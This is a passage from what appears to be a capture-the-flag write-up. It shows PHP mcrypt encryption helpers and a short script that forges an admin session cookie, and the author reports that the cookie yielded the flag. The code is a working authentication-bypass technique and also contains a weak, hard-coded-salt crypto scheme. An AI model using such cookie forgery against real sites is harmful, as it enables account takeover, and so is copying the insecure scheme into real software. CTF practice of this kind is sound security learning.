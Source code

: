 ```php
    $key = generateKey($pText);

    $iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC), MCRYPT_RAND);

    return base64_encode($iv . mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, $pText, MCRYPT_MODE_CBC, $iv));
}

function decryptString($pText, $pKey) {
    $key = generateKey($pKey);

    $text = base64_decode($pText);

    $iv_size = mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC);

    $iv = substr($text, 0, $iv_size); $ciphertext = substr($text, $iv_size);

    $plain = mcrypt_decrypt(MCRYPT_RIJNDAEL_256, $key, $ciphertext, MCRYPT_MODE_CBC, $iv);

    return rtrim($plain, "\0");
}

function generateHash($pPass) {
    $salt = 'uH39*z_f-D48w';
    
    return hash('sha256', $salt . hash('sha256', $pPass));
}

$content = '1_' . encryptString('admin');

echo "Crafted cookie: " . $content;
```

### After crafting a cookie for the admin, I navigated to the website and the flag was waiting there.

![](Screenshot from 2017-10-11 21-35-34.png)